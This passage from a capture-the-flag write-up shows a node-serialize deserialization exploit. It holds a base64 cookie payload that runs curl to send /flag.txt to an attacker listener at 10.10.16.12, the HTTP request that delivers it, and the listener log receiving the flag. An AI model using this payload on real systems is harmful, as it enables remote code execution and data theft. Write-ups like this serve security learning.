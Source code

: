 To generate the base64 payload:

```bash
pidnull💀kali:public$ node payload.js 
eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ2N1cmwgLUcgLS1kYXRhLXVybGVuY29kZSAkKGNhdCAvZmxhZy50eHQpIGh0dHA6Ly8xMC4xMC4xNi4xMjo4MDAwJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSk7fSgpIn0=
(node:14189) [DEP0005] DeprecationWarning: Buffer() is deprecated due to security and usability issues. Please use the Buffer.alloc(), Buffer.allocUnsafe(), or Buffer.from() methods instead.
pidnull💀kali:public$ 
```

### The exploit

Finally, all I had to do was start my listener, then send the HTTP request:

```http
POST /guest HTTP/1.1
Host: localhost:7777
User-Agent: MY-USER-AGENT
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 82
Origin: http://localhost:7777
DNT: 1
Connection: close
Referer: http://localhost:7777/guest
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cookie: guest=eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ2N1cmwgLUcgLS1kYXRhLXVybGVuY29kZSAkKGNhdCAvZmxhZy50eHQpIGh0dHA6Ly8xMC4xMC4xNi4xMjo4MDAwJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSk7fSgpIn0=

username=pidnull&country=Germany&city=Munich&message=Hi+there&submit=Add+your+info
```

Result:

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.2 - - [05/Sep/2021 22:51:34] "GET /?zh3r0%7Btest_flag%7D HTTP/1.1" 200 -
```

Sent the payload to the actual CTF URL, and I got the flag.
